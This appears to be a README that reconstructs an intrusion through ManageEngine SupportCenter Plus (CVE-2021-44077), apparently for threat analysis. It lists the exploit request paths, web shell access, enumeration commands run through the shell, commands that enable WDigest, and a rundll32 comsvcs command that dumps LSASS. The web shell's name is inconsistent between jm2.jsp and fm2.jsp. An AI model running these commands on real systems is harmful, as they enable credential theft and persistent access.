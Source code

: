 # Attack Roadmap

### Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration

<img src="AttackRoadmap.png"  width="20%" height="20%">

## Let's Summarize Each Step
#### 1. Exploit [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) The exploit looks very similar to a publicly available POC exploit on [GitHub](https://github.com/horizon3ai/CVE-2021-44077).
##### Exploit Method: RCE via two HTTP requests.
 - Request 1: POST request to /RestAPI/ImportTechnicians?step=1 contains `msiexec.exe` and was written to C:\Program Files\ManageEngine\SupportCenterPlus\bin\msiexec.exe.

 - Request 2: GET request to /RestAPI/s247action?execute=s247AgentInstallationProcess&apikey=asdasd, and invoke the uploaded `msiexec.exe`.

  ![image](https://github.com/user-attachments/assets/ce028655-d691-4c2d-86e3-370d9ce76742)

#### 2. Web Shell Deployment:
- The Malicous msiexec.exe contains encoded web shell once `msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=asdasd /qn` there is a webshell file `jm2.jsp` written to `C:\Program Files\ManageEngine\SupportCenterPlus\custom\login\fm2.jsp`, this way will allow the threat actor to maintain the access with no need to execute the exploit once again.
- Now you have an access to the system through `http://<victim_ip:8080/custom/login/jm2.jsp` then you can `Execute Commands` and `View and Download files`
  
  ![image](https://github.com/user-attachments/assets/65b4b314-1bf1-44cb-b281-8c5fa18156ac)

#### 3. System Enumeration
- Then basic enumuration is made.
  ```
  https://server.example/custom/login/fm2.jsp?cmd=arp -a
  https://server.example/custom/login/fm2.jsp?cmd=systeminfo
  https://server.example/custom/login/fm2.jsp?cmd=tasklist
  https://server.example/custom/login/fm2.jsp?cmd=wmic computersystem get domain
  ```
#### 4. Credential Dumping
- The Threat Actor Checked if the `WDigest` is Enabled because When WDigest is Enabled `LSASS` stores passwords in Plaintext.
- Check WDigest:
  ```
   powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
  ```
- Enable WDigest:
  ```
  powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
  ```
 - Stealing Credentials (Dumping LSASS):
   ```
   C:\windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll MiniDump [LSASS_PROC_ID] C:\windows\temp\logctl.zip full
   ``` 

 #### 5. Lateral Movement
 - Threat Actor Downloaded file.exe and wrote it to ekern.exe and this file was realy a renamed `plink.exe`
 - `plink.exe`: A command-line SSH client
   ![image](https://github.com/user-attachments/assets/85dc8953-0f11-4624-85cc-49dd3170e433)
 - 
